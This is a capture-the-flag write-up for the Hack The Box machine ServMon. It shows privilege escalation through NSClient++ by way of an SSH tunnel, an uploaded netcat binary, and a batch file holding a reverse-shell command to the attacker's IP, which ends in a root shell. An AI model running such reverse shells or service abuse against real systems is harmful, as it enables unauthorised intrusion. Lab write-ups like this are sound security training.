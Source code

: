 ## NSClient++

The service has a binding to 127.0.0.1 and only allows access from this host. So first I build a SSH tunnel.

```bash
kali@kali:~/hacking_stuff/htb/machines/servmon$ ssh -L 8443:127.0.0.1:8443 nadine@servmon.htb
nadine@servmon.htb''s password:                                                   
Microsoft Windows [Version 10.0.18363.752]                                  
(c) 2019 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>
```

![ssh tunnel](../../../../assets/images/hackthebox/servmon/1_ssh_tunnel.png)

Ok, we are in.

![nsclient](../../../../assets/images/hackthebox/servmon/2_nsclient.png)

Now we need a little script that calls netcat for us.

```batch
@echo off
C:\Temp\nc.exe 10.10.14.18 1337 -e cmd.exe
```

The batch file and the netcat exe must be on the server, it is important to use the correct architecture.

```bash
kali@kali:~/hacking_stuff/htb/machines/servmon$ scp ../../../useful/nc/nc64.exe nadine@servmon.htb:C:/Temp/nc.exe
nadine@servmon.htb''s password: 
nc64.exe                                                                            100%   43KB 297.2KB/s   00:00
kali@kali:~/hacking_stuff/htb/machines/servmon$ scp evil.bat nadine@servmon.htb:C:/Temp/
nadine@servmon.htb''s password: 
evil.bat
```

In the next step the NSClient++ must be set up to execute the batch file, but before that a listener must be set up locally.

![nsclient_exploit](../../../../assets/images/hackthebox/servmon/3_3_config.png)

The software itself doesn't seem to run very stable and so you have to refresh it from time to time or click the Queries button several times.

![root_shell](../../../../assets/images/hackthebox/servmon/4_root.png)

```powershell
C:\Users\Administrator\Desktop>type root.txt
type root.txt
dff8079d96----------------------
```

That's it, a root shell.